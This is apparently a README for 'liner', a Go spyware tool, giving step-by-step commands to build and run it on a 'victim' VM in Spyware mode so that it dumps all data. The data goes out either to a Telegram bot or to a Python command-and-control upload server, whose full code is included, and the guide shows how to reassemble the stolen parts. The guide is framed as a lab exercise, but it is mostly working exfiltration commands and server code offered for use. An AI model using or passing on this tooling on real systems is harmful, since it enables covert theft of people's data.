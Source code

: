## Liner Usage Guide for Data Exfiltration

This guide provides step-by-step instructions for using the liner tool in a lab environment to perform data exfiltration via Telegram or a custom server. The setup assumes the host machine as the attacker and a VirtualBox virtual machine (VM) as the victim.

---

### Prerequisites

Host Machine (Attacker): Ubuntu/Debian with Python 3 installed.  
Virtual Machine (Victim): Ubuntu/Debian with Go 1.24.5 installed.  
Network: VirtualBox VM set to NAT (default, with attacker IP 10.0.2.15) or Host-Only (e.g., 192.168.56.101).  
Telegram (optional): A Telegram bot token and chat ID for Telegram-based exfiltration.

---

### Setup Instructions

1. Install Go 1.24.5 on the Victim VM

Remove any existing Go installations:
sudo apt remove --purge golang golang-* go
sudo rm -rf /usr/lib/go* /usr/bin/go /usr/local/go ~/.go ~/go

Install Go 1.24.5:
wget https://go.dev/dl/go1.24.5.linux-amd64.tar.gz
sudo tar -C /usr/local -xzf go1.24.5.linux-amd64.tar.gz

Update ~/.bashrc:
nano ~/.bashrc

Add these lines at the end:
export PATH=/usr/local/go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export GOROOT=/usr/local/go
export GOPATH=$HOME/go
export PATH=$PATH:$GOPATH/bin

Apply changes:
source ~/.bashrc

Verify Go installation:
go version

Expected output: go version go1.24.5 linux/amd64.

---

2. Build Liner on the Victim VM

Navigate to the project directory:
cd ~/Desktop/liner

Initialize and tidy Go modules:
rm -rf go.mod go.sum
go mod init liner
go mod tidy

Build the tool:
go build -v -mod=mod -o liner ./cmd
sudo mv liner /usr/bin
sudo chmod +x /usr/bin/liner

---

### Exfiltration Modes

#### Option 1: Exfiltration via Telegram

Setup Telegram Bot:
- Create a Telegram bot using BotFather.
- Get bot token and chat ID.

Run Liner with Telegram:
sudo liner --mode Spyware --dump all --telegram --token <BOT_TOKEN> --id <CHAT_ID> --encryption no

Example:
sudo liner --mode Spyware --dump all --telegram --token 123456:ABC-DEF1234ghIkl-zyx57W2v1u123ew11 --id 123456789 --encryption no

Check your Telegram chat for received data.

---

#### Option 2: Exfiltration via Custom Server

Setup Python Server on Attacker (Host Machine):
```
mkdir ~/c2
cd ~/c2
```
Create c2_server.py:
```python
import http.server
import socketserver
import os

PORT = 8080
UPLOAD_DIR = "uploads"

if not os.path.exists(UPLOAD_DIR):
    os.makedirs(UPLOAD_DIR)

class UploadHandler(http.server.SimpleHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        body = self.rfile.read(content_length).decode('utf-8')
        if self.path == '/message':
            self.send_response(200)
            self.send_header('Content-type', 'text/plain')
            self.end_headers()
            self.wfile.write(b'Message received')
            with open(os.path.join(UPLOAD_DIR, f'part_{len(os.listdir(UPLOAD_DIR))}.txt'), 'w') as f:
                f.write(body)
        else:
            self.send_response(404)
            self.end_headers()

with socketserver.TCPServer(("", PORT), UploadHandler) as httpd:
    print(f"Serving at port {PORT}")
    httpd.serve_forever()
```

Run server:
```
python3 c2_server.py
```
Configure Network:
- NAT Mode (default): Test with curl
- Host-Only Mode: Switch VM, test connectivity

Allow port:
```
sudo ufw allow 8080
```
Run Liner with Server:
```
sudo liner --mode Spyware --dump all --server <ATTACKER_IP> --port 8080 --encryption no
```
Test Server Exfiltration:
```
ls ~/c2/uploads
cat part_* > liner_data.zip
unzip liner_data.zip
```
---

### Troubleshooting

Build Issues:
- Verify Go version: go version
- Rebuild if needed

Network Issues:
- Ensure server is running
- Test with curl
- Switch to Host-Only if NAT fails

Telegram Issues:
- Verify bot token & chat ID
- Ensure chat is active

Flag Errors:
- Use -- not - for flags

---

### Example Workflow

Attacker (Host):
```
cd ~/c2 && python3 c2_server.py
curl -X POST -d "message=test" http://127.0.0.1:8080/message
```
Victim (VM):
```
cd ~/Desktop/liner && go build -v -mod=mod -o liner ./cmd
sudo liner --mode Spyware --dump all --server 10.0.2.15 --port 8080 --encryption no
```
Verify:
```
ls ~/c2/uploads
cat part_* > liner_data.zip && unzip liner_data.zip
```
For Telegram:
```
sudo liner --mode Spyware --dump all --telegram --token <BOT_TOKEN> --id <CHAT_ID> --encryption no
```
Check Telegram chat for data.
